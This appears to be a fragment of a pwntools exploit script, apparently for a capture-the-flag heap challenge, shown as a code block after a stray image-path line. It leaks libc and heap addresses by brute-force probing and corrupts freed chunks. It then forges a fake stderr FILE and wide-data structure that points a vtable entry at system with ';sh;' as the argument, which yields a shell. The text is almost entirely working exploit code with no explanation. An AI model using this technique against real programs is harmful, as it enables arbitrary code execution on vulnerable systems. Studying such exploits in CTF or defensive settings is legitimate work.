 ```python
		conn.sendlineafter(": ", str(i))
		if not b'Not found' in conn.recv():
			print("[+] upper = 0x%x"%i)
			upper_addr_libc = i
			break
	conn.sendline("2")
	conn.sendlineafter(": ", str(upper_addr_libc))
	conn.recvuntil("data(")
	lower_addr_libc = int(conn.recvuntil(")")[:-1])
	addr_bins = ((upper_addr_libc << 32) | lower_addr_libc)
	addr_libc = addr_bins -  off_bins
	conn.sendafter(": ", p64(0xdeadbeef)*2+b'\n') # danger
	
		
	for i in range(14):
		free(upper_addr_libc)

	# heap leak
	conn.recvuntil("> ")
	for i in range(0x5500, 0x5700):
		conn.sendline("2")
		conn.sendlineafter(": ", str(i))
		tmp = conn.recv()
		if not b'Not found' in tmp:
			upper_addr_heap = i
			break
	lower_addr_heap = int(tmp.split(b"data(")[1].split(b")")[0])
	off_heap = 0x0000555555647ef0 - 0x55555555a000
	addr_heap = ((upper_addr_heap << 32) | lower_addr_heap) - off_heap
	
	conn.send(p64(addr_libc+off_stderr-0x28)[:-1]+b'\n') 
	free(upper_addr_libc)

	off_wide_data = 0x0000555555669430 - 0x55555555a000  

	fake_stderr = b''
	fake_stderr += p32(0xfbad0101)						# _flags
	fake_stderr += b';sh;'
	fake_stderr += b"\x00"*(0x20-len(fake_stderr))
	fake_stderr += p64(0) 								# _IO_write_base
	fake_stderr += p64(1) 								# _IO_write_ptr
	fake_stderr += b"\x00"*(0x88-len(fake_stderr))
	fake_stderr += p64(addr_heap+off_wide_data) 				# _wide_data
	fake_stderr += b"\x00"*(0xa0-len(fake_stderr))
	fake_stderr += p64(addr_heap+off_wide_data) 				# _wide_data
	fake_stderr += b"\x00"*(0xc0-len(fake_stderr))
	fake_stderr += p64(0) 								# _mode
	fake_stderr += b"\x00"*(0xd8-len(fake_stderr))
	fake_stderr += p64(addr_libc+off_wfile_jumps)		# _vtable
	
	fake_stderr = p64(0)*3 + fake_stderr
	fake_stderr += b'\n'

	edit(upper_addr_libc, fake_stderr)
	
	fake_wide_data = b''
	fake_wide_data += b'\x00'*(0x20-len(fake_wide_data))
	fake_wide_data += p64(0)							# _IO_write_base
	fake_wide_data += b'\x00'*(0x58-len(fake_wide_data))
	fake_wide_data += p64(0)							# _IO_buf_base
	fake_wide_data += b'\x00'*(0x68-len(fake_wide_data))
	fake_wide_data += p64(addr_libc+off_system)			# _vtable->_setbuf
	fake_wide_data += b'\x00'*(0xe0-len(fake_wide_data))
```